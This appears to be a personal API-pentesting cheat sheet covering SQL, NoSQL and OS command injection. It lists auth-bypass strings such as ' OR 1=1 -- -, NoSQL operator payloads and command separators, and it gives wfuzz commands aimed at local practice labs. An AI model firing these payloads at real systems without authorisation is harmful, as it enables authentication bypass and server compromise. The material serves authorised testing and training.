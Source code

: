 When reviewing an API documentation, if it is expecting a certain type of input (number, string, boolean) send - 
1. a very large number
2. a very large string
3. negative number
4. string instead of number or boolean
5. random charachters
6. boolean values
7. meta characters

## Metacharacters 
    '

    ''

    ;%00

    --

    -- -

    ""

    ;

    ' OR '1

    ' OR 1 -- -

    " OR "" = "

    " OR 1 = 1 -- -

    ' OR '' = '

    OR 1=1

>SELECT * FROM userdb WHERE username = 'hAPI_hacker' AND password = 'Password1!'

>SELECT * FROM userdb WHERE username = 'hAPI_hacker' OR 1=1-- -

## NoSQL Injection

APIs commonly use NoSQL databases due to how well they scale with the architecture designs common among APIs. Also, NoSQL injection techniques aren’t as well-known as their structured counterparts. Due to this one small fact, you might be more likely to find NoSQL injections.

As you hunt, remember that NoSQL databases do not share as many commonalities as the different SQL databases do. NoSQL is an umbrella term that means the database does not use SQL. Therefore, these databases have unique structures, modes of querying, vulnerabilities, and exploits. Practically speaking, you’ll conduct many similar attacks and target similar requests, but your actual payloads will vary. The following are common NoSQL metacharacters you could send in an API request to manipulate the database:

    $gt 

    {"$gt":""}

    {"$gt":-1}

    $ne

    {"$ne":""}

    {"$ne":-1}

    $nin

    {"$nin":1}

    {"$nin":[1]}

    {"$where":  "sleep(1000)"}

## OS Injection
Operating system command injection is similar to the other injection attacks we’ve covered in this chapter, but instead of, say, database queries, you’ll inject a command separator and operating system commands. When you’re performing operating system injection, it helps a great deal to know which operating system is running on the target server. Make sure you get the most out of your Nmap scans during reconnaissance in an attempt to glean this information.

As with all other injection attacks, you’ll begin by finding a potential injection point. Operating system command injection typically requires being able to leverage system commands that the application has access to or escaping the application altogether. Some key places to target include URL query strings, request parameters, and headers, as well as any request that has thrown unique or verbose errors (especially those containing any operating system information) during fuzzing attempts.

Characters such as the following all act as command separators, which enable a program to pair multiple commands together on a single line. If a web application is vulnerable, it would allow an attacker to add command separators to existing command and then follow it with additional operating system commands:

|

||

&

&&

'

"

;

'"

If you don’t know a target’s underlying operating system, put your API fuzzing skills to work by using two payload positions: one for the command separator followed by a second for the operating system command. The table below is a small list of potential operating system commands to use.

Common Operating System Commands to Use in Injection Attacks

Operating system

Command

Windows

    ipconfig shows the network configuration.

    dir prints the contents of a directory.

    ver prints the operating system and version.

    whoami prints the current user.

    *nix (Linux and Unix)

    ifconfig shows the network configuration.

    ls prints the contents of a directory.

    pwd prints the current working directory.

    whoami prints the current user.

 
 ## Steps
 1. Find potential endpoints and parameters.
 2. Try fuzzing and finding anomalities in postman by variables.
 3. Try sending the request to burp and send it to intruder to automate payloads on target parameter.
4. save request to a file from burp suite and replace the fuzzing parameter value with FUZZ - {"coupon_code":FUZZ}
5. using wfuzz to automate the testing -
   
        wfuzz -z file,/usr/share/wordlists/PayloadsAllTheThings/NoSQL\ Injection/Intruder/NoSQL.txt -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0ZXJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxMjQ3NDYzMCwiZXhwIjoxNzEzMDc5NDMwfQ.pY1PF5wW0wXFYde1kJIGLlrzjTGD_IMmrj2CTr3S_XDEp0myEiPrZNAZbD62RP21iw00ZofwkhauW7I6fm54pbnXKvhG7sOBCFIigsx6virBSiMpNBz8rnWCciWZCyEUL6Gh2qXZZkitLue62m4lBipyrsuqHCFMJjglgg2kDWcae4gC_9pLxcG6gmpmzJwD6qPTUMD7aOdQqJEFfqaSj-nMxL_0WeIXjY_CgJ5loJHIiDAzZC4YsHpQhXf5zQUIM6q0g8Xee3KfhWppboqKVkc0wY_FJgxxD_GthHG3ix5l1ekJSF99mDDz7Iy8Hs4CnS2rlx4_HgZ8yrNvndmo8g" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon


## Note
**Remember to not put space before payload list directory**
1. Look at how the payload is getting succeeded in execution. 
     
        wfuzz -z file,test -H "Content-Type: application/json" -d "{\"username\":\"FUZZ\",\"password\":\"password\"}" -p localhost:8080 http://localhost/vapi/api8/user/login

2. Check for " marks and escape them accordingly to get right results

        wfuzz -z file,/usr/share/wordlists/PayloadsAllTheThings/SQL\ Injection/Intruder/Auth_Bypass.txt -H "Content-Type: application/json" -d "{\"username\":\"FUZZ\",\"password\":\"password\"}" --sc 200  http://localhost/vapi/api8/user/login
